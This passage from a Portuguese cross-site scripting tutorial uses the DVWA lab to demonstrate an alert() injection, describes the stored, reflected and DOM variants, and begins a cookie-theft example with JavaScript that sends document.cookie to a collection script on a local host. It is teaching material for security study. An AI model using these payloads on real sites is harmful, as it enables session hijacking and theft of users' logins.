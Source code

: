 *"ok, funcionando normalmente, Qual o problema?"*
Vejamos o que ocorre caso tentemos inserir um código javascript no campo do nome.
```javascript
    <script>alert("Eliabe")</script>
```
![Xss](/assets/images/wtf/5kPoRK5.png)

O código foi interpretado e executado. Partindo deste ponto, a exploração pode tomar diversos rumos, que vão desde um **alert** até um roubo de sessão.

## Vertentes e aplicações

O cross-site scripting, assim como outras vulnerabilidades, tem suas limitações e vertentes, e para fins de estudos, iremos abordar **"3"** delas:

* Stored
* Reflected
* DOM

### XSS (Reflected) 
O xss refletido leva a aplicação ao pé da letra. Nosso código malicioso é refletido no servidor web, como uma Mensagem de erro X, resultado de alguma pesquisa Y ou qualquer outra resposta Z que inclua entradas enviadas ao servidor como parte da request.

---
*antes de continuarmos, caso haja a vontade de seguir os passos, o ambiente controlado utilizado para testes e exemplificação da maioria dos casos é o **[Dvwa](http://www.dvwa.co.uk/)*** 

---

Certo, tomadas as devidas medidas, vejamos um outro exemplo de código vulnerável à nossa injeção.

Indo um pouco além de nossa última execução, vamos tentar alternativas à exibição de um nome na tela, pois cá entre nós, um nome na tela não põe medo **( a não ser que seja "wannacry ).**
Vejamos uma simulação do que ocorre caso queiramos fazer um roubo de **Cookies**.

Certo, primeiro, criemos uma simples página html com código javascript em seu corpo:
```html
    <!DOCTYPE html>
    <html>
    <body>
    <script type ="text/javascript"> 
    document.location = 'http://127.0.0.1/passaocookie.php?pwn=' + document.cookie; 
    </script>
    <script type="text/javascript">
    document.cookie = "username=Deadlock";
    document.write(document.cookie);
    </script>
    </body>
    </html>
```
sua saída deve ser a escrita de *username=Deadlock*.
